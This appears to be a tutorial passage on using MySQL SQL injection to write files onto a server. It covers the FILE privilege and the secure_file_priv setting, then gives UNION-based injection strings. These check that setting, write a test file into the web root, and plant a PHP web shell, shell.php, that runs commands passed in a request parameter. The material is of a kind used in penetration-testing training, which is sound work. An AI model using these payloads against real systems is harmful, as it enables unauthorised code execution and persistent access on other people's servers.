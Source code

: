 ### 1. User Privileges
First, we need a user with the FILE privilege enabled. This is MySQL's way of controlling who can interact with the server's file system. Think of it like having a special key that unlocks the ability to read and write files.

### 2. Security Configuration Check
The `secure_file_priv` variable acts as a gatekeeper for file operations. Here's how it works:

- Empty value ('') → Complete freedom to read/write anywhere
- Specific directory → Limited to that directory only
- NULL → No file operations allowed anywhere

To check this setting, we use:

`cn' UNION SELECT 1, variable_name, variable_value, 4  FROM information_schema.global_variables  where variable_name="secure_file_priv"-- -`

### 3. Operating System Permissions
Even with database permissions, we still need the MySQL service account to have proper filesystem permissions for our target directory.
## Writing Files Through SQL: A Step-by-Step Guide
### Basic File Writing
Let's start with the simplest case - writing a text file:

`SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';`

This works like saving a text file through any program, but we're doing it through SQL. The resulting file will be owned by the MySQL user.

### Advanced Writing Techniques
For more complex files, we can use base64 encoding:
`-- Writing binary or complex data SELECT FROM_BASE64("base64_encoded_content") INTO OUTFILE '/path/to/file'`

### Writing Web Shells: A Practical Example
Here's how we progress from simple file writing to creating a web shell:
1. **Test Write Access**
`cn' union select 1,'file written successfully!',3,4  into outfile '/var/www/html/proof.txt'-- -`

2. **Create Web Shell**
`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", ""  into outfile '/var/www/html/shell.php'-- -`

The empty strings (`""`) replace numbers to create cleaner output.

## Understanding the Security Implications

Think of this capability like having a master key to a building. With great power comes great responsibility:

1. **File System Access**: Writing files anywhere the database user has permission
2. **Code Execution**: Potential to execute commands on the server
3. **Persistence**: Ability to maintain access through uploaded files
